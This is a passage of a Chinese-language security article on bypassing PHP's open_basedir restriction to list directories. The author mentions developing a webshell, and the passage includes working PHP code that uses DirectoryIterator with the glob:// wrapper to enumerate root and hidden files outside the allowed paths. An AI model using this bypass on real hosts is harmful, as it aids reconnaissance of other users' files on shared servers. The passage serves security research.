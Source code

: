 # PHP绕过open_basedir列目录的研究

0x00 前言
=======

* * *

近期由于在开发自己的webshell，所以对PHP一些已有的漏洞进行了一定的研究，并且也自己发现了部分PHP存在的安全隐患。这篇文章我来与大家分享一下自己对于PHP中open_basedir绕过并列举目录的方法总结。

0x01 open_basedir的简介
====================

* * *

Open_basedir是PHP设置中为了防御PHP跨目录进行文件（目录）读写的方法，所有PHP中有关文件读、写的函数都会经过open_basedir的检查。

Open_basedir实际上是一些目录的集合，在定义了open_basedir以后，php可以读写的文件、目录都将被限制在这些目录中。

设置open_basedir的方法，在linux下，不同的目录由“:”分割，如“/var/www/:/tmp/”；在Windows下不同目录由“;”分割，如“c:/www;c:/windows/temp”。

在现在这个各种云、虚拟主机横行的时期，人们希望open_basedir作为一个横亘在不同用户之间的屏障，有力地保障用户的主机能独立运行，但事实并非人们想象的那么简单。

我们这篇文章着重讲的将是绕过open_basedir进行目录的列举与遍历，为何我们不说具体文件的读、写，因为文件读写的洞是危害比较大的漏洞了，在php5.3以后很少有能够绕过open_basedir读写文件的方法。

0x02 利用DirectoryIterator + Glob 直接列举目录
======================================

* * *

这是@/fd 脚本（http://zone.wooyun.org/content/11268）里给出的第一个方法。

DirectoryIterator 是php5中增加的一个类，为用户提供一个简单的查看目录的接口（The DirectoryIterator class provides a simple interface for viewing the contents of filesystem directories）。

glob: 数据流包装器是从 PHP 5.3.0 起开始有效的，用来查找匹配的文件路径。

结合这两个方式，我们就可以在php5.3以后对目录进行列举。在实测中，我们得知，此方法在Linux下列举目录居然可以无视open_basedir。

示例代码：

```
<?php
printf('<b>open_basedir : %s </b><br />', ini_get('open_basedir'));
$file_list = array();
// normal files
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
// special files (starting with a dot(.))
$it = new DirectoryIterator("glob:///.*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
        echo "{$f}<br/>";
}
?>

```
